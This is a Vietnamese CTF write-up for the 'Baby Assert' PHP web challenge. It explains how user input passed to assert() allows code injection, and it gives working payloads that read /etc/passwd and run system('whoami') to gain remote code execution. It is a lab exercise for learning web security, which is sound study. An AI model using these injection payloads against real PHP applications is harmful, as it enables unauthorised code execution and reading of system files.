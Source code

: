 ```yaml
---
title: Cookie Hân Hoan - Web - Write-Up Baby Assert
date: 2023-09-15 3:55:00 +0700
categories: [Writeup, Cookie Hân Hoan]
tags: [web, writeup]     # TAG names should always be lowercase
---
```

# CTF Write-Up: Baby Assert

Địa chỉ : **[Baby Assert](https://battle.cookiearena.org/challenges/web/baby-assert)**

## **Challenge Details**

Trong PHP, có rất nhiều cách để thay thế lệnh điều khiển If Else. Tuy nhiên, không phải lập trình viên nào cũng lường trước được những hậu quả nghiêm trọng khi sử dụng và thiết lập những tham số an toàn trên môi trường Production.

## **Tags**

- php
- Assert
- Code Injection

## ****Web Analysis:****

- Tại `/index.php` trang web:

Có 3 Nút home, about và Secret mình xem thử từng cái.

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled.png)

Ta thấy ở trang web có 1 parameter **`?page=`**  ngay lúc này mình đã test về lỗi LFI ( ../ , ….//)  tuy nhiên nó đã không thực thi.

Quan sát thì web có gợi ý 1 đoạn code của trang web này:

```php
$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;
```

Lúc này mình thấy có hàm `assert` có vẻ kì lạ…

- Tại `ABOUT`trang web:

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%201.png)

Không có gì đặc biệt.

- Tại `SECRET` trang web:

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%202.png)

Ta thấy `file flag` được đặt tên + thêm ký tự random. Vậy cho dù mình có thực thi được ../ lỗi LFI thì cũng không thể biết được tên cụ thể của file flag mà xem được. Nên phải RCE hệ thống.

`+1dea: RCE`

## PHÂN TÍCH ASSERT

Ở lúc này thì mình chưa biết về hàm assert hoạt động như thế nào và tìm hiểu nó.

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%203.png)

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%204.png)

chi tiết ở : [how assertions can get you hacked](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6)

Vậy thì giải thích sơ

`**Assert()**` là một hàm đánh giá một biểu thức PHP nhất định và nếu biểu thức đánh giá là **`false`**, nó sẽ tạo ra một thông báo cảnh báo hoặc gây ra lỗi nghiêm trọng tùy thuộc vào cấu hình PHP. Nó thường được sử dụng cho mục đích gỡ lỗi và thử nghiệm.

Tuy nhiên, **`assert()`**có thể trở thành rủi ro bảo mật khi sử dụng không đúng cách, đặc biệt khi dữ liệu do người dùng kiểm soát được truyền trực tiếp vào chức **`assert()`**năng mà không được xác thực hoặc khử trùng thích hợp.

## ****Exploiting Assert()****

**PAYLOAD AT HACKTRICK : [CLICK](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)**

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%205.png)

ở đây để RCE thì ta inject vào 1 chuổi và +PHP 

thì nó có thể thực thi command như là webshell

Thử nghiệm

```php
PAYLOAD:
' and die(show_source('/etc/passwd')) or ‘
```

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%206.png)

Nó đã thực thi được payload của chúng ta tuy nhiên không biết file flag tên gì nên mình phải RCE.

```php
PAYLOAD:
' and die(system("whoami")) or '
```

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%207.png)

THÀNH CÔNG RỒI 

việc còn lại là xem file FLag

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%208.png)

![Untitled](CTF%20Write-Up%20Baby%20Assert%205f9fad4ba6d34667994d08ce56b09e97/Untitled%209.png)

DONE =)))

`***Written by Ren***`
